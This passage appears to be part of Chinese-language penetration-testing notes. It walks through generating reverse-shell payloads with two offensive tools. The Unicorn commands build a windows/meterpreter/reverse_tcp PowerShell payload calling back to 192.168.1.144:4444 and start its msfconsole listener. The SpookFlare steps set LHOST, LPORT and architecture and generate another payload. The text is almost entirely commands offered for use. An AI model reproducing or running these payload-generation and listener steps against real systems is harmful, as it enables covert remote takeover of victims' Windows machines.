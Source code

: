 ```
cd unicorn-master/
ls
chmod 777 ./*
python unicorn.py --help

python unicorn.py windows/meterpreter/reverse_tcp 192.168.1.144 4444

# 生成2个文件，xxx.rc文件[meterpreter监听代码]和txt文件[powershell的txt文件攻击代码](powershell的txt文件可以考虑变成bat)

msfconsole -r unicorn.rc
msfconsole -r xxx.rc
# 使用代码
```

6/59



## spookflare

GitHub上搜索

```
cd  SpookFlare-master/
ls
chmod 777 ./*
# 发现有requirements.txt就要去安装Python的依赖库

安装python依赖库
pip install -i https://pypi.douban.com/simple -r requirements.txt

python  spookflare.py     # 进入

help

list
use 1
info    #可以查看需要set的内容【类似于options】
set PROTO http
set LHOST 192.168.1.144
set LPORT 8080
set ARCH x64
set SSIZE 61337

generate    #生成
```

![image-20220112135845530](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220112135845530.png)
